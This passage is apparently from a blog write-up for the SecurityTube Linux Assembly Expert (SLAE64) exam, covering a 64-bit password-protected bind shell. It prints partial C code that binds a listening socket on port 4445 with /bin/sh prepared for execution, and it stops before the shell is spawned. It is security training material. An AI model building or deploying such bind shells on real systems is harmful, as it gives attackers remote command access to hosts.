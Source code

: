 ```yaml
---
layout: post
title: 64-bit bindshell with a passphrase protection
#description: >
#  This blog post covers the 1st task of the SLAE certificate exam.
#hide_description: true
#image: /assets/img/blog/example-content-ii.jpg
#canonical_url: https://pages-themes.github.io/architect/
---
```


This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert Certification](https://www.pentesteracademy.com/course?id=7). The task for 1/7 assignment is to create a 64-bit bindshell with a password protection. If the password is entered correctly, only then the shell gets executed. All 0-bytes should be removed.

<b>Student ID</b>: SLAE64 - 1594

## How does bind shellcode look like in C?

Before we start writing any assembly I like to see and understand what we are going to be working on in C language. The most important parts for us are the syscalls - `socket(), bind(), accept(), listen(), accept(), dup2(), write(), read() and execve()`, understanding on file descriptors and the `struct sockaddr_in` structure.

```js
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <sys/types.h>
#include <unistd.h>
#include <string.h>

int main()
{
	int sockfd;
	int newsockfd;
	int ret = 0;
	char buf[4];  // to hold the value user entered as PIN
	unsigned short port = 4445;
	struct sockaddr_in client;

	struct sockaddr_in server;
	server.sin_family = AF_INET;
	server.sin_port = htons(port);
	server.sin_addr.s_addr = INADDR_ANY;
	bzero(&server.sin_zero, 8);

	//length of a structure in bytes
	int sockaddr_len = sizeof(struct sockaddr_in);
	//execve 2nd and 3rd argument
	char *const argv[] = {"/bin/sh", NULL};
	char *const envp[] = {NULL};


	//create a new socket
	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	//bind a name to a socket
	bind(sockfd, (struct sockaddr *)&server, sockaddr_len);

	//listen for connections on a socket
	listen(sockfd,0);
```